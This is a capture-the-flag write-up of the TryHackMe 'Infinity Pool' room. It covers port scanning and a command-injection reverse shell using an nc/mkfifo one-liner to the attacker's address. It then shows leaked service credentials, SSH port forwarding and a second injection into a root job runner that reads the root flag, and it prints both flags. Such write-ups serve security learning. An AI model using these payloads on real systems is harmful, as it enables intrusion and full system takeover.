







# [Infinity Pool](https://tryhackme.com/room/hh-infinitypool-5b3548af)

- Day 11 of Hacker Holidays. It is a boot-to-root machine.



- RustScan revealed two open ports:
```
 rustscan -a 10.49.174.229 -r 1-65535 --ulimit 5000
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Open ports, closed hearts.

[~] The config file is expected to be at "/home/light/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.49.174.229:22
Open 10.49.174.229:80
[~] Starting Script(s)
[~] Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-08 15:55 +0530
Initiating Ping Scan at 15:55
Scanning 10.49.174.229 [4 ports]
Completed Ping Scan at 15:55, 0.18s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 15:55
Completed Parallel DNS resolution of 1 host. at 15:55, 0.50s elapsed
DNS resolution of 1 IPs took 0.50s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 15:55
Scanning 10.49.174.229 [2 ports]
Discovered open port 22/tcp on 10.49.174.229
Discovered open port 80/tcp on 10.49.174.229
Completed SYN Stealth Scan at 15:55, 0.15s elapsed (2 total ports)
Nmap scan report for 10.49.174.229
Host is up, received echo-reply ttl 62 (0.13s latency).
Scanned at 2026-08-08 15:55:27 IST for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 62
80/tcp open  http    syn-ack ttl 62

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.97 seconds
           Raw packets sent: 6 (240B) | Rcvd: 3 (116B)
```
- Nmap scan results 
```
nmap -sC -sV -p 22,80 10.49.174.229 -oN nmap_scan
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-08 15:55 +0530
Nmap scan report for 10.49.174.229
Host is up (0.11s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.18 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 77:e9:cf:93:62:aa:3f:db:3f:fa:1a:f0:f1:a6:8f:95 (ECDSA)
|_  256 86:cb:3c:bf:c0:e1:02:c2:78:f2:65:a3:01:f0:92:11 (ED25519)
80/tcp open  http    Gunicorn
|_http-title: Byte Lotus &mdash; Stay Noticed
|_http-server-header: gunicorn
| http-robots.txt: 2 disallowed entries 
|_/internal/ /status
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.12 seconds
```
- Let's investigate the web server.



- Hmm... `app.js`. Let's take a look.

```
app.js

// Byte Lotus front-end bootstrap.
// TODO(ops): the staff connectivity tool at /status posts to the legacy
// /internal/netcheck handler. Keep it out of the public nav until the new
// auth gateway ships. Disallowed in robots.txt for now.
console.log("Stay Noticed\u2122");
```
- The above code gives us a few endpoints to investigate. Let's start with `robots.txt`.



- We found two endpoints: `/status` and `/internal/netcheck`.
- The `/status` endpoint seems a bit interesting, while the other endpoint responds with `Method Not Allowed`.



- It is a straightforward command-injection vulnerability. Let's get a reverse shell.

```
192.168.175.139; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.175.139 1234 >/tmp/f
```
```
 nc -lnvp 1234                                                     17s
listening on [any] 1234 ...
connect to [192.168.175.139] from (UNKNOWN) [10.49.174.229] 33182
bash: cannot set terminal process group (661): Inappropriate ioctl for device
bash: no job control in this shell
web@tryhackme-2404:/var/www/infinity_pool/edge$ 

```
- Stabilize the reverse shell.
```
web@tryhackme-2404:/var/www/infinity_pool/edge$ python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL + Z
stty raw -echo;fg
    export TERM=xterm
```
-  In the user's home directory, we can find `user.txt`. 

```
cat user.txt 
THM{n0_v1s1bl3_3dg3}
```
**User.txt: THM{n0_v1s1bl3_3dg3}**

- I found a few services listening only on localhost. 
```
web@tryhackme-2404:/$ ss -altp
State  Recv-Q Send-Q Local Address:Port     Peer Address:PortProcess                                                     
LISTEN 0      4096         0.0.0.0:ssh           0.0.0.0:*                                                               
LISTEN 0      2048         0.0.0.0:http          0.0.0.0:*    users:(("gunicorn",pid=928,fd=5),("gunicorn",pid=664,fd=5))
LISTEN 0      80         127.0.0.1:mysql         0.0.0.0:*                                                               
LISTEN 0      511        127.0.0.1:http-alt      0.0.0.0:*                                                               
LISTEN 0      10         127.0.0.1:omniorb       0.0.0.0:*                                                               
LISTEN 0      10         127.0.0.1:8089          0.0.0.0:*                                                               
LISTEN 0      4096   127.0.0.53%lo:domain        0.0.0.0:*                                                               
LISTEN 0      2048       127.0.0.1:9000          0.0.0.0:*                                                               
LISTEN 0      2048       127.0.0.1:3000          0.0.0.0:*                                                               
LISTEN 0      10         127.0.0.1:5038          0.0.0.0:*                                                               
LISTEN 0      4096      127.0.0.54:domain        0.0.0.0:*                                                               
LISTEN 0      4096            [::]:ssh              [::]:*
```
- There are several open ports, most of which are well-known services. The less familiar ports are `9000`, `3000`, and `8089`. Let's take a look at the processes using them.
```
web@tryhackme-2404:/var/www/infinity_pool$ ps -aux | grep -E '(3000|9000|5038|8089)'

root         663  0.0  0.6  34276 24196 ?        Ss   12:16   0:00 /var/www/infinity_pool/automation/venv/bin/python3 /var/www/infinity_pool/automation/venv/bin/gunicorn --workers 1 --bind 127.0.0.1:9000 wsgi:app
svc-wat+     665  0.0  0.6  34276 24196 ?        Ss   12:16   0:00 /var/www/infinity_pool/watchtower/venv/bin/python3 /var/www/infinity_pool/watchtower/venv/bin/gunicorn --workers 1 --bind 127.0.0.1:3000 wsgi:app
svc-wat+     986  0.0  0.7  42044 29704 ?        S    12:16   0:00 /var/www/infinity_pool/watchtower/venv/bin/python3 /var/www/infinity_pool/watchtower/venv/bin/gunicorn --workers 1 --bind 127.0.0.1:3000 wsgi:app
root         988  0.0  0.7  42416 29992 ?        S    12:16   0:00 /var/www/infinity_pool/automation/venv/bin/python3 /var/www/infinity_pool/automation/venv/bin/gunicorn --workers 1 --bind 127.0.0.1:9000 wsgi:app
web         1838  0.0  0.0   7092  2180 pts/0    S+   12:48   0:00 grep --color=auto -E (3000|9000|5038|8089)
```
- Ports `3000` and `9000` are running two web services. One is **automation**, running as `root`, while the other is **watchtower**, running as `svc-watch`. Let's investigate them.
- I tried to find information about the `automation` service.
```
find / -name '*automation*' 2>/dev/null 
/sys/fs/cgroup/system.slice/cc-automation.service
/run/systemd/units/invocation:cc-automation.service
/usr/lib/python3/dist-packages/pygments/lexers/__pycache__/automation.cpython-312.pyc
/usr/lib/python3/dist-packages/pygments/lexers/automation.py
/etc/systemd/system/cc-automation.service
/etc/systemd/system/multi-user.target.wants/cc-automation.service
/var/www/html/admin/modules/backup/vendor/euautomation
/var/www/infinity_pool/automation
/var/automation
```

```
 cat /etc/systemd/system/cc-automation.service
[Unit]
Description=Closed Circuit - Automation job runner (loopback, root)
After=network.target redis-server.service

[Service]
User=root
Group=root
WorkingDirectory=/var/www/infinity_pool/automation
EnvironmentFile=/var/www/infinity_pool/automation/automation.env
ExecStart=/var/www/infinity_pool/automation/venv/bin/gunicorn --workers 1 --bind 127.0.0.1:9000 wsgi:app
Restart=on-failure
RestartSec=2

[Install]
WantedBy=multi-user.target           
``` 
 - This file shows that the `cc-automation.service` service is running as `root` and listening on port `9000`. However, I did not find anything interesting from the initial inspection of this port.
 - The service on port `3000` is named `watchtower`. I found some information about it.
 - [Watchtower](https://containrrr.dev/watchtower/introduction/) is an open-source tool designed to automate the process of updating running Docker containers completely in the background.
 - The upstream Watchtower project normally runs as a Docker container and monitors container images for updates. However, the local process here is a custom Gunicorn application named `watchtower`; the name alone does not establish that it is the upstream Watchtower project.
 - **Port 3000:** The local `watchtower` application exposes an HTTP API. In this challenge, `/api/config` reveals configuration information for the other internal services.
 - The service running on port `3000` revealed credentials and other internal configuration details.
 ```
  curl http://localhost:3000/api/config
{"automation_endpoint":"http://127.0.0.1:9000","note":"internal network only -- do not expose","ops_note":"UCP still on default template creds (FreePBXUCPTemplateCreator) -- ROTATE.","telephony_pass":"St4yN0t1c3d_2026","telephony_portal":"http://127.0.0.1:8080/ucp","telephony_user":"FreePBXUCPTemplateCreator"}
```
- The above configurationuration shows that a UCP (User Control Panel) is running on `localhost:8080`, and it provides credentials for accessing it. 
- I want to perform port forwarding so I can access this service from my system.
- I generated a ssh key 
```
ssh-keygen
```
- Then I copied the public key to `authorized_keys`.
- Now I can perform local port forwarding.
```
ssh -L 8080:127.0.0.1:8080 web@10.49.174.229 -i id_rsa  
```
- Now I can access the UCP portal from my browser.



- Let's log in with the credentials. I then created a new dashboard and navigated through the available widgets.



- In the top-left `+` menu, there is an option called **Voicemail**, followed by **FreePBXUCPTemplateCreator**. This generates an automation key for the service running on port `9000`.



- In the meantime, I sent a request to the service running on port `9000`.
```
curl http://localhost:9000/health
{"endpoints":{"GET /health":"service status","POST /jobs/export":{"auth":"Authorization: Bearer <automation key>","body":{"report":"<report name>"},"desc":"archive the latest data export"}},"runs_as":"root","service":"automation","status":"ok"}
```
- Let's add the automation key to a variable and include it in the request.
```
web@tryhackme-2404:~$ key="cc_auto_7b3f9a1c4e0d2f6a"
web@tryhackme-2404:~$ curl -s -X POST -H "Authorization: Bearer $key" -H "Content-Type: application/json" http://127.0.0.1:9000/jobs/export -d '{"report":"test"}'
```
```
{"command":"tar czf /var/automation/exports/test.tgz /var/automation/data 2>&1","output":"tar: Removing leading `/' from member names\n"}
```
- The service inserts the `report` value directly into a shell command without proper quoting or validation. Because the value is passed to a shell, shell metacharacters can be used to inject additional commands. 

```
curl -s -X POST -H "Authorization: Bearer $key" -H "Content-Type: application/json" http://127.0.0.1:9000/jobs/export -d '{"report":"test; id;"}'
```
```
{"command":"tar czf /var/automation/exports/test; id;.tgz /var/automation/data 2>&1","output":"uid=0(root) gid=0(root) groups=0(root)\n/bin/sh: 1: .tgz: not found\ntar: Cowardly refusing to create an empty archive\nTry 'tar --help' or 'tar --usage' for more information.\n"}
```

- We can see that the command injection was successful. Let's try to read the root flag.
```
web@tryhackme-2404:~$ curl -s -X POST -H "Authorization: Bearer $key" -H "Content-Type: application/json" http://127.0.0.1:9000/jobs/export -d '{"report":"test; cat /root/root.txt;"}'
```
```
{"command":"tar czf /var/automation/exports/test; cat /root/root.txt;.tgz /var/automation/data 2>&1","output":"THM{tr4c3d_t0_th3_h0r1z0n}\n/bin/sh: 1: .tgz: not found\ntar: Cowardly refusing to create an empty archive\nTry 'tar --help' or 'tar --usage' for more information.\n"}
```
**Root Flag: THM{tr4c3d_t0_th3_h0r1z0n}**
